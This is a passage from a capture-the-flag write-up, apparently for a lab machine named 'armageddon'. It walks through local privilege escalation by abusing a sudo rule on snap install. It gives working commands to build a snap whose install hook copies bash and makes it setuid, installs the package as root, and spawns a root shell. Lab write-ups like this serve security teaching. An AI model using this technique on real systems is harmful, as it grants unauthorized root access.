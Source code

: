 After executing the snap package in the way `sudo -l` says we should with the additional flags gtfobins mentions such as `--dangerous` and `--devmode`, we are able to verify that the package was executed as root.
```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install id_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "id" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)
```

Im going to create another snap package, but this time, I will slightly modify the `COMMAND` variable to copy and paste bash into the home directory and give it the `S` permission.
```bash
COMMAND='cp /bin/bash /home/brucetherealadmin/; chmod +s /home/brucetherealadmin/bash'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n bsh -s dir -t snap -a all meta
```

After executing the new snap package, an error message was displayed saying that the package failed to install with exit code 1, however when I listed the directory I saw a copy of bash and was able to escalate privileges to root.
```bash
bash  bsh_1.0_all.snap  user.txt
[brucetherealadmin@armageddon ~]$ ./bash -p
./bash: /lib64/libtinfo.so.5: no version information available (required by ./bash)
bash-4.3# whoami
root
```